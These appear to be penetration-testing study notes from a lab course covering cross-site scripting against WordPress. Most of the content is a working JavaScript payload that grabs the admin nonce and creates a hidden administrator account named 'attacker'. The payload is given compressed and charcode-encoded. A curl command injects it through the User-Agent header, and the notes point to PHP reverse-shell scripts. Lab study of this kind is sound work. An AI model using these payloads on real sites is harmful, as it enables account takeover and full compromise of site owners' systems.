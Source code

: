 ### Cross-Site Scripting (XSS)  - **XSS Tools - HackTricks**   - [Link](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/xss-tools)  
### Common Special Characters for XSS  - `< > ' " { } ;`  
### Resources  - [Percent-encoding - Wikipedia](https://en.wikipedia.org/wiki/Percent-encoding)  
## Privilege Escalation via XSS 
### JavaScript Code for Nonce  
```javascript var ajaxRequest = new XMLHttpRequest(); var requestURL = "/wp-admin/user-new.php"; var nonceRegex = /ser" value="([^"]*?)"/g; ajaxRequest.open("GET", requestURL, false); ajaxRequest.send(); var nonceMatch = nonceRegex.exec(ajaxRequest.responseText); var nonce = nonceMatch[1]; var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator"; ajaxRequest = new XMLHttpRequest(); ajaxRequest.open("POST", requestURL, true); ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded"); ajaxRequest.send(params);``

### Compressed JavaScript

javascriptCopy code

`var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);`

### Encoding to JavaScript

javascriptCopy code

`function encode_to_javascript(string) {     var input = string     var output = '';     for(pos = 0; pos < input.length; pos++) {         output += input.charCodeAt(pos);         if(pos != (input.length - 1)) {             output += ",";         }     }     return output; }  let encoded = encode_to_javascript('var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);') console.log(encoded)`

### Result of Code Run in Console



`118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112`

### Usage Example with CURL

`curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...));</script>" --proxy 127.0.0.1:8080`

### WordPress Reverse Shell

- [WordPress: Reverse Shell - Hacking Articles](https://www.hackingarticles.in/wordpress-reverse-shell/)
### Finding WordPress with WPScan

bashCopy code
`wpscan --url http://offsecwp/`

### Reverse Shell PHP Script for Wordpress

- [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

Use the **tun0** IP address for the reverse shell.


